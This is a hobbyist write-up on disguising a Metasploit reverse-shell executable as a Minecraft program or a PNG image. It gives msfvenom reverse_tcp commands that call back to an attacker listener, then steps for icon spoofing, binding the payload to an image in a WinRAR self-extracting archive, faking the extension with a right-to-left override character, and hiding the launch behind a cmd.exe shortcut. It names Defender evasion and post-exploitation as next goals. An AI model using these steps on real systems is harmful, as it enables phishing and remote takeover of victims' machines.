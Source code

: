 # Reverse shell tcp exploit masked as minecraft.exe 

I've been getting some shitty phishing emails so I thought how I could make it more believable:

<img src="phishing.png" alt="img" />

This is kinda bad.

I saw the other day a video about something like "turn any executable into png" and i thought, what if I made a windows reverse tcp binary using msfvenom and named it as minecraft.exe? 

In this writeup we will do:
- Minecraft.exe reverse shell
- Minecraft.exe/png bundled with another file reverse shell
- Hidden CMD shortcut when opening the Minecraft.png file
- Maybe make a pdf reverse shell

Let's do it

## part 1

First I'm using bridged adapter kali linux VM with windows as my host machine. I am on the same 192.168.100.x network

We have a few payload options, we can use meterpreter or just normal shell:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.150.6 LPORT=4444 -f exe -o minecraft.exe`

`msfvenom -p windows/shell/reverse_tcp LHOST=192.168.150.6 LPORT=4444 -f exe -o minecraft.exe`


<img src="1.png" alt="img" />

I moved the file into my windows desktop. We can test that it works first by running the exe. If we geta shell we can change directory
`cd /d C:\` 

Just have to disable my antivirus since the binary itself is fingerprinted with metasploit

We will customize this executable to make it look legitimate following this tutorial by "ebola man"

Video: https://www.youtube.com/watch?v=cXEkSQl9wmw


<img src="2.png" alt="img" />

First we need resource hacker: https://www.angusj.com/resourcehacker/#download

<img src="2.5.png" alt="img" />

Then we get minecraft icon png and put it on our exe.

<img src="3.png" alt="img" />

Now we have a legitemately looking minecraft hack except windows defender instantly knows thats its a virus and when running it, it doesn't do anything which is sus

So let's forget the payload legitimacy first, what if we want to turn this into a legit looking PNG and just send it to a friend?

## part 2
According to the tutorial, we can bind a picture with the exe using Winrar. 

1. Select the picture and exe and add to archive

<img src="4.png" alt="img" />

2. Check "create SFX archive"

<img src="5.png" alt="img" />

3. Go to advanced SFX and put these

<img src="6.png" alt="img" />

4. Then modes unpack to temp folder and hide all

<img src="7.png" alt="img" />

5. Then text and icon, select your icon (must be ICO format)

<img src="8.png" alt="img" />

6. In update tab => overwrite all files

<img src="8.5.png" alt="img" />

<img src="9.png" alt="img" />

Now we get the same `minecraft.exe` but now it opens up an image we bundled it with when run

Change the extension from .exe to .scr

`minecraft.scr`

It will run the same 

Now we insert a special character by right clicking while editing file name, right before ouur file extension at `file|gnp.scr`

=> insert special character => RLO
<img src="10.png" alt="img" />

Now it looks like this with and runs normally

<img src="11.png" alt="img" />


## part 3
Another method is to create a folder with a shortcut of the file. I'm imagining this as a folder of pictures

Take the exe file from part 2 and change it to `minecraft.png`

It will run in CMD when you type `minecraft.png`

Create folder, create shortcut

Make original image file hidden in properties

In the shortcut properties, add `cmd.exe /c` in the target, and change the icon to something believable

Next up I need to think:
- How to bypass windows defender
- Set up remote server listener
- Better masking and stealthing after exploitation
- Post-exploitation objectives


Source: 

ebola man
https://www.youtube.com/watch?v=cXEkSQl9wmw
